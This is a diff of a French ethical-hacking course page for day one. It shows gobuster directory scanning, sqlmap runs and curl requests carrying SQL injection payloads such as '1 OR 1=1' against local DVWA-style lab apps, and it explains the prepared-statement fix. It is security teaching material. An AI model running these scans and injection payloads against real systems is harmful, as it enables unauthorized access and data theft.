

Before and after one commit to yugmerabtene/techniques-de-hacking-niveau-1, a Markdown page: JOUR-01-introduction-hacking-ethique-vulnerabilites.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
JOUR-01: ajout des commentaires de resultat attendu (# →) sur toutes les commandes, verification coherence des explications

````diff
--- a/JOUR-01-introduction-hacking-ethique-vulnerabilites.md
+++ b/JOUR-01-introduction-hacking-ethique-vulnerabilites.md
@@ -463,14 +462,10 @@ Le flag `-sV` interroge la bannière du service pour obtenir la version exacte.
 cd rendu_labs/jour-01
 gobuster dir -u http://localhost:8088 \
   -w /usr/share/wordlists/dirb/common.txt -q | tee gobuster_dvwa.txt
-```
-
-**Résultat attendu :**
-```
-/login.php (Status: 200)
-/vulnerabilities (Status: 301)
-/config (Status: 301)
-/setup.php (Status: 200)
+# → /login.php (Status: 200)
+# → /vulnerabilities (Status: 301)
+# → /config (Status: 301)
+# → /setup.php (Status: 200)
 ```
 Le flag `-u` définit l'URL cible, `-w` la wordlist de noms à tester (ici `common.txt`), `-q` masque la bannière. `tee` copie la sortie dans un fichier.
 
@@ -791,19 +781,16 @@ sqlmap -u "http://localhost:8088/vulnerabilities/sqli/?id=1&Submit=Submit" \
 
 **Commande (simulation de correction) :**
 ```bash
-# Code vulnérable actuel :
-# $query = "SELECT * FROM users WHERE user_id = '$id'";
-
-# Code corrigé avec requête préparée PDO :
-# $stmt = $pdo->prepare("SELECT * FROM users WHERE user_id = ?");
-# $stmt->execute([$id]);
-
-# Vérification : sqlmap après correction ne trouve plus rien
+# Code vulnérable :
+#   $query = "SELECT * FROM users WHERE user_id = '$id'";
+# Code corrigé :
+#   $stmt = $pdo->prepare("SELECT * FROM users WHERE user_id = ?");
+#   $stmt->execute([$id]);
+
 sqlmap -u "http://localhost:8088/vulnerabilities/sqli/?id=1&Submit=Submit" \
   --load-cookies=/tmp/dvwa_cookie.txt --batch 2>&1 | grep -o "not injectable\|injectable"
-```
-
-**Résultat attendu :** `not injectable` — sqlmap confirme que le paramètre n'est plus injectable.
+# → not injectable
+```
 
 **Explication :** Avec les requêtes préparées, la valeur de `$id` est transmise **séparément** du code SQL. Même si `$id` contient `1' OR '1'='1'`, la base de données ne l'interprète pas comme du SQL — c'est une chaîne de caractères inoffensive. Ajoutez un WAF (ModSecurity) et du bcrypt pour les mots de passe, et la défense est complète.
 
@@ -987,13 +975,13 @@ mkdir -p rendu_labs/jour-01 && cd rendu_labs/jour-01
 **Commande :**
 ```bash
 curl -s "http://localhost:8083/?page=search&id=1" | grep -o "Laptop\|Monitor\|Keyboard"
-# → Laptop Pro X
+# → Laptop Pro X  (comportement normal : 1 seul produit)
 
 curl -s "http://localhost:8083/?page=search&id=1%20OR%201=1" | grep -c "<tr>"
-# → 6 (tous les produits)
+# → 6  (tous les produits retournés : injection confirmée)
 
 curl -s "http://localhost:8083/?page=search&id=1%20AND%201=2" | grep -o "Aucun"
-# → Aucun produit trouvé
+# → Aucun produit trouvé  (AND 1=2 = toujours faux)
 ```
 
 **Résultat attendu :** `1 OR 1=1` retourne 6 produits au lieu d'1. `AND 1=2` retourne "Aucun produit trouvé".
````
Also changed, not shown: other parts of JOUR-01-introduction-hacking-ethique-vulnerabilites.md (+28 -24 lines).
